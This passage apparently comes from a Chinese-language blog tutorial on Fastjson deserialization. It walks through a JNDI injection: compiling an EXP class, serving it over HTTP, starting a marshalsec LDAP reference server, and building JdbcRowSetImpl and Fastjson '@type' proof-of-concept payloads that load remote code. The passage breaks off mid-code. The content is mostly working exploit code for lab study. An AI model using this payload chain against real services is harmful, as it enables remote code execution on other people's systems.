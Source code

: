     javac EXP.java
    

开启http服务

    python3 -m http.server
    

![image-20220413214234339](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173252809-801612830.png)

用marshalsec开jndi服务

    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#EXP 1389
    

![image-20220413214333530](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173253397-598039011.png)

使用JdbcRowSetImpl构造poc，成功弹窗

    package com.akkacloud.demo;
    
    import com.sun.rowset.JdbcRowSetImpl;
    
    import java.sql.SQLException;
    
    public class fastjonTest2 {
        public static void main(String[] args) {
    
            JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
            try {
                jdbcRowSet.setDataSourceName("ldap://localhost:1389/#EXP");
                jdbcRowSet.setAutoCommit(true);
            } catch (SQLException throwables) {
                throwables.printStackTrace();
            }
    
        }
    }
    
    

![image-20220413214619189](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173254546-1732759027.png)

因为fastjson会自动调用setter和getter，具体可以看

Poc调试的那部分,所以我们就可以构造处fastjson的poc

    {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1389/#EXP", "autoCommit":true}
    

我们JSON.parse()试一下

**poc**

    package com.akkacloud.demo;
    
    import com.alibaba.fastjson.JSON;
    import com.sun.rowset.JdbcRowSetImpl;
    
    import java.sql.SQLException;
    